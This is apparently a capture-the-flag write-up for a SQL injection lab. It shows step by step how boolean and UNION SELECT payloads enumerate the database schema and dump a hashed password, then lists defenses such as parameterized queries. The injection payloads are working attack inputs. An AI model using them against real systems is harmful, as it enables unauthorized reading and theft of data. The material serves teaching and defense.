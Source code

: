 # SQL Injection Definition

A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.

# STEPS

## First Step:

Let's check input data is vulnerable of sql injection by sending single quote.  
Output:  
`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1`

## Second Step:

Now when we find that input data is vulnerable let's try to guest what they querying on this specific input.  
Let's try to send a 1 as id and see the output  
Output:

```
ID: 1
Title: Nsa
Url : https://www.nsa.org/img.jpg
```

Now let's try to select all rows by sending `1 or 1=1`  
Output:

```
ID: 1 or 1=1
Title: Nsa
Url : https://www.nsa.org/img.jpg
ID: 1 or 1=1
Title: 42 !
Url : https://www.42.fr/42.png
ID: 1 or 1=1
Title: Google
Url : https://www.google.fr/google.png
ID: 1 or 1=1
Title: Obama
Url : https://www.obama.org/obama.jpg
ID: 1 or 1=1
Title: Hack me ?
Url : borntosec.ddns.net/images.png
ID: 1 or 1=1
Title: tr00l
Url : https://www.h4x0r3.0rg/tr0ll.png
```

Let's now use `UNION`, What's UNION Operator ?  
The UNION operator is used to combine the result-set of two or more SELECT statements.  
But to work UNION properly we must follow those conditions:

- Every SELECT statement within UNION must have the same number of columns
- The columns must also have similar data types
<!-- - The columns in every SELECT statement must also be in the same order -->

### Condition 1:

Let's find out how many columns they selected by using `order by`  
Usage of order by:

```
order by (column_name or index_of_selected_column)
```

We don't know column_name so we'll use `index_of_selected_column`  
order by 1 and order by 2 work perfectly as expected, but after using order by 3 it's return error. so we now know that we have two columns.

### Condition 2:

From the result we can see that both two columns is string

Now let's select current database

```
1 UNION SELECT NULL,DATABASE() // Member_images
```

And now let's try to find name of tables that databases have by sending this query

```
1 UNION SELECT TABLE_SCHEMA,TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=0x4d656d6265725f696d61676573
```

```
INFORMATION_SCHEMA: provides access to database metadata, information about the MySQL server such as the name of a database or table, the data type of a column
TABLE_SCHEMA: The name of the schema (database) to which the table belongs
TABLE_NAME: The name of the table
// 0x4d656d6265725f696d61676573 = Member_images
```

We find that database have just one tables (list_images)  
Now let's search for all columns names of this table

```
1 UNION SELECT NULL,COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA=0x4d656d6265725f696d61676573 AND TABLE_NAME=0x6c6973745f696d61676573
```

### [Columns]

```
id
url
title
comment
```

After searching all the columns we find that `title` contain password

```
1 UNION SELECT title,comment FROM Member_images.list_images
```

Output:

```
ID: 1 UNION SELECT title,comment FROM Member_images.list_images
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

After decrypt password and lower it thant hash it we'll get the flag

```
1928e8083cf461a51303633093573c46 = albatroz
albatroz = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Flag : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

# Defenses

### Defense 1: Prepared Statements (with Parameterized Queries)

The use of prepared statements with variable binding (aka parameterized queries) is how all developers should first be taught how to write database queries. They are simple to write, and easier to understand than dynamic queries. Parameterized queries force the developer to first define all the SQL code, and then pass in each parameter to the query later. This coding style allows the database to distinguish between code and data, regardless of what user input is supplied.

### Defense 2: Escaping All User-Supplied Input

This technique should only be used as a last resort, when none of the above are feasible. Input validation is probably a better choice as this methodology is frail compared to other defenses and we cannot guarantee it will prevent all SQL Injection in all situations.

# Resources

### [SQL Injection OWASP](https://owasp.org/www-community/attacks/SQL_Injection)

### [SQL Injection Prevention](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

### [SQL Injection Exercise 1](https://www.hacksplaining.com/exercises/sql-injection)

### [SQL Injection Exercise 2](https://application.security/free-application-security-training/owasp-top-10-sql-injection)
